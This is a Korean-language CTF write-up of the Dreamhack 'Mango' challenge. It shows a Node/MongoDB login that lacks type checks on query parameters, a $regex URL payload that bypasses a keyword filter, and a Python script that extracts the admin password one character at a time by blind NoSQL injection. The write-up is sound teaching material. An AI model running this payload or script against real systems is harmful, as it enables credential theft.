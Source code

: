 ## 📍Mango

```
이 문제는 데이터베이스에 저장된 플래그를 획득하는 문제입니다. 
플래그는 admin 계정의 비밀번호 입니다.
플래그의 형식은 DH{…} 입니다.
{‘uid’: ‘admin’, ‘upw’: ‘DH{32alphanumeric}’}
```

![](Attachments/59F000E6-5B91-4D49-A479-B2B6D7D99E59.png)

아래 주소를 URL에 붙여넣기하면 uid를 반환한다.

![](Attachments/57BE0A16-BB46-42E5-95B7-ABB94716DE42.png)

문제 지문에 나와있는 대로 admin 계정으로 로그인하려고 하면 막힌다.

![](Attachments/4AD563C8-18A8-4CB7-A825-C7C3C234851F.png)


#### 소스코드

`admin, dh, admi` 세 가지를 필터링하는 함수가 있다.
![](Attachments/3C451C0B-EF1F-442B-94E6-12F733DB7BA0.png)

login 페이지는 이용자가 쿼리로 전달한 `uid`와 `upw`를 `filter` 함수로 필터링한다.
필터링에 걸리지 않으면 DB를 검색하고, 찾아낸 이용자의 정보를 반환한다.
![](Attachments/CA9A9A0A-5A2B-4C19-AA72-744CDFFCF8A8.png)


#### 취약점

login 페이지에서 MongoDB에 쿼리를 전달하는 부분을 보면 쿼리 변수의 타입을 검사하지 않는다.
```sql
const {uid, upw} = req.query;

db.collection('user').findOne({
	'uid': uid,
	'upw': upw,
})
```
이로 인해 NoSQL Injection 공격이 발생할 수 있다.


#### 해결

/login에서는 로그인에 성공했을 때 이용자의 `uid`만 출력하기 때문에 Blind NoSQL Injection으로 admin의 `upw`를 획득해야 한다.

filter 함수가 특정 문자열을 필터링하고 있지만, 정규표현식을 이용하면 우회할 수 있다.

`http://host3.dreamhack.games:15768/login?uid[$regex]=ad.in&upw=D.{*`

![](Attachments/6B39B63E-371A-4A54-A77B-FF313DE2C89E.png)

`upw`는 정규표현식을 통해 한 글자씩 알아내야 하므로 여러 번 쿼리를 전달할 필요가 있다.
자동화 스크립트를 작성한다.

```python
import requests, string

HOST = 'http://host3.dreamhack.games:15768'
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''

for i in range(32):
    for ch in ALPHANUMERIC:
        response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}')
        if response.text == SUCCESS:
            flag += ch
            break
    print(f'FLAG: DH{{{flag}}}')
```

결과!

![](Attachments/BA763E55-6627-4715-A8F6-2EAC91CE2E16.png)
